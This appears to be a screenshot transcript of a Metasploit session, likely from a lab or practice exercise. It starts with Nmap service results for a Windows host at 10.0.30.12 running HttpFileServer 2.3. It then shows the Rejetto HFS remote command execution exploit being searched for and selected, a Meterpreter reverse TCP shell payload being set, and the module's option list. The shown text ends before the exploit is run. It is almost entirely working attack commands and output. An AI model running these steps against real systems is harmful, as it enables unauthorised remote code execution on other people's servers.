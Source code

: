 ```
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 66.84 seconds
msf6 > services
Services
========

host        port   proto  name               state  info
----        ----   -----  ----               -----  ----
10.0.30.12  80     tcp    http               open   HttpFileServer httpd 2.3
10.0.30.12  135    tcp    msrpc              open   Microsoft Windows RPC
10.0.30.12  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.0.30.12  445    tcp    microsoft-ds       open   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
10.0.30.12  3389   tcp    ssl/ms-wbt-server  open   
10.0.30.12  49152  tcp    msrpc              open   Microsoft Windows RPC
10.0.30.12  49153  tcp    msrpc              open   Microsoft Windows RPC
10.0.30.12  49154  tcp    msrpc              open   Microsoft Windows RPC
10.0.30.12  49155  tcp    msrpc              open   Microsoft Windows RPC
10.0.30.12  49167  tcp    msrpc              open   Microsoft Windows RPC

```

```
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.30.12       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

```
